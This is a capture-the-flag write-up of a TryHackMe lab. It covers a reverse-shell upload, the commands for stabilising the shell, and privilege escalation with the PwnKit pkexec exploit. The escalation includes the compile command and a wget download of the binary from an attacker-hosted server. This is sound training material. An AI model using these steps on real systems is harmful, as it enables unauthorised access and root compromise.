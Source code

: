 ```yaml
---
layout: post
title: 
date: 2022-08-27 12:35:33 +0530
author: Aarcha Paul
summary: 
categories: TryHackMe
thumbnail: jekyll
tags:
 - TryHackMe
 - writeup
---
```

OKK !! We are in so now while walking an application i found a page " Albums " So after visiting i saw upload functionality.
![7 1 moving](https://user-images.githubusercontent.com/75413146/153705192-774e205e-dbc9-4382-bd2f-bec004592da2.png)


`--------------------------------`
So edited my reverse shell with my IP and my favorite port
![6  3 Editing shell IP](https://user-images.githubusercontent.com/75413146/153705281-c31231ce-9b1a-4304-9b27-c9a443c1f54a.png)


Whoop Whoop we got shell... OKKK first things first let's stabilise our shell. I learned stabilising from What the Shell room on Tryhackme.
- export TERM=xterm
- which python3 [ Will allow to know what python is installed ]
- python3 -c 'import pty;pty.spawn("/bin/bash")'
- press CTRL+Z to bcakground the shell and also run the command on attacker machine
- stty raw -echo ; fg
- reset
- [ This commands will give us a fully functional shell ]
![9 1 Stabilising shell](https://user-images.githubusercontent.com/75413146/153705566-476dfb91-8360-49e3-8670-4435c3b80777.png)
By resetting you get your shell reset like below a clean shell :D

Privilege Escalation TIIIIIIIIIIIME !!!!
	- For privesc you can run linpeas or any other script or may enumerate manually for escalation.
	- But in this writeup we will run PwnKit to learn some new about POLKIT pkexec module exploit. The exploit code can be found here -> https://github.com/ly4k/PwnKit/blob/main/PwnKit.c 
        ![10  enumerating privesc](https://user-images.githubusercontent.com/75413146/153705878-b9531579-e336-44f6-bc6f-a5f328428b81.png)
      - Let's do this...
      Compiling the code by 
      - gcc -shared PwnKit.c -o PwnKit -Wl,-e,entry -fPIC
         ![11  1 pkexec binary](https://user-images.githubusercontent.com/75413146/153705895-3944080b-9a45-4fda-ab70-b09be5dc796c.png)
We got the binary compiled and now let's move this to victim host.
- 1st host a server on attacker machine we can do this by [Note : Host the server where your binary file is ! ]
- Command : python3 -m http.server 80
- 2nd  Go to victim terminal and download the binary by following 
- Command : wget http://[attackerIP:PORT]/file_name

![12  Tranferring binary](https://user-images.githubusercontent.com/75413146/153705932-8b8fc8a4-8b4c-4c3b-bd0a-c459c21fbfc6.png)

Also note the workding directory i am in /dev/shm. You must have a writable permission on a directory. Like /tmp or /dev/shm or /var/tmp
Now we got the binary so let's make it executable by using command : 
- chmod +x PwnKit

Let's now run the binary 
          ![13  Got Shell](https://user-images.githubusercontent.com/75413146/153706089-1213c008-3b53-42d1-b140-c7ccdd2a82d2.png)

So let's get the flags and end it ASAP.
- /home/mike has user.txt
- /root/ has root.txt
            ![13  Flags txt](https://user-images.githubusercontent.com/75413146/153706142-3bab8ddf-4894-42aa-8841-063eefd5e45d.png)
